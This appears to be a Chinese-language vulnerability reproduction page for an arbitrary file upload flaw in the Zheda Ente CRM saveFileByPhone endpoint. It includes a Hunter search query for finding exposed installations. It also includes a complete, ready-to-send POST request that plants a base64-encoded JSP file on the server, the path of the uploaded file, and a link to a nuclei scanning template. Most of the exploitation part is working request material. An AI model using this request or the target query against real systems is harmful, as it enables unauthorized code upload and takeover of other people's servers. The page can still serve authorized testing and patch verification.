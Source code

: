 # 浙大恩特CRM saveFileByPhone任意文件上传漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">浙大恩特CRM是由浙江大学恩智浙大科技有限公司推出的客户关系管理（CRM）系统。该系统旨在帮助企业高效管理客户关系，提升销售业绩，促进市场营销和客户服务的优化。系统支持客户数据分析和报表展示，帮助企业深度挖掘客户数据，提供决策参考。浙大恩特CRM saveFileByPhone存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器控制权限。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ <font style="color:rgba(0, 0, 0, 0.9);">浙大恩特CRM</font>

# <font style="color:rgba(0, 0, 0, 0.9);">三、资产测绘</font>
+ hunter`app.name="浙大恩特 CRM"`
+ 特征

![1700034640158-a0b751ed-9499-471d-aef1-96b75913aa5a.png](./img/m5SQOJdEFI4o4V07/1700034640158-a0b751ed-9499-471d-aef1-96b75913aa5a-943390.png)

# 四、漏洞复现
```java
POST /entsoft/ProductAction.entphone;.js?method=saveFileByPhone&goonum=954572337&filename=usnw9.jsp&imageData=Ijwlb3V0LnByaW50KDEyNTQxMjU2Mik7bmV3IGphdmEuaW8uRmlsZShhcHBsaWNhdGlvbi5nZXRSZWFsUGF0aChyZXF1ZXN0LmdldFNlcnZsZXRQYXRoKCkpKS5kZWxldGUoKTslPiI= HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Content-Length: 4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: close
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1

test
```

![1703401674950-b3f8a679-e77e-4c9e-bf22-6a23f8f5fdd5.png](./img/m5SQOJdEFI4o4V07/1703401674950-b3f8a679-e77e-4c9e-bf22-6a23f8f5fdd5-885837.png)

```java
Ijwlb3V0LnByaW50KDEyNTQxMjU2Mik7bmV3IGphdmEuaW8uRmlsZShhcHBsaWNhdGlvbi5nZXRSZWFsUGF0aChyZXF1ZXN0LmdldFNlcnZsZXRQYXRoKCkpKS5kZWxldGUoKTslPiI=
```

![1703401771766-b3589322-1fb9-4c79-86d3-a6d5e357d028.png](./img/m5SQOJdEFI4o4V07/1703401771766-b3589322-1fb9-4c79-86d3-a6d5e357d028-381143.png)

上传文件位置

```java
/entsoft/image/goocodimg/goodoc/954572337/usnw9.jsp;.js
```

![1703401707921-384444ad-1b9e-4257-974f-61b976f5bb4d.png](./img/m5SQOJdEFI4o4V07/1703401707921-384444ad-1b9e-4257-974f-61b976f5bb4d-650115.png)

nuclei脚本

[浙大恩特客户资源管理系统-productaction-entphone--任意文件上传.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1709222145337-f07f5255-5e64-4561-a65f-567e7b6375d4.yaml)



> 更新: 2024-02-29 23:55:45  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ffdm30fuhx2pn2ih>